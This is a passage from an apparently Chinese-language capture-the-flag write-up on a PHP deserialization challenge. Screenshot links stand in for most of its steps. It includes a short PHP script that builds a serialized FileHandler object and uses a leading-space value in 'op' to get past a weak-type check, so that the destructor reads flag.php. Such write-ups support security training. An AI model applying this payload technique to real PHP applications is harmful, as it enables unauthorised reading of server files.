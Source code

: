 ![](image37\QQ截图20220326202729.png)



然后传参

![](D:\Isec\csdn\web37\image37\QQ截图20220326203016.png)

获取到flag

![](D:\Isec\csdn\web37\image37\QQ截图20220326203029.png)

### 解析

<?php
class FileHandler{
public $op=' 2';//源码告诉我们 op 为 1 时候是执行写入为 2 时执行读
public $filename="flag.php";//文件开头调用的是 flag.php
public $content="xd";
}
$flag = new FileHandler();
$flag_1 = serialize($flag);
echo $flag_1;
?>
涉及：反序列化魔术方法调用，弱类型绕过，ascii 绕过
使用该类对 flag 进行读取，这里面能利用的只有__destruct 函数（析构函数）。__
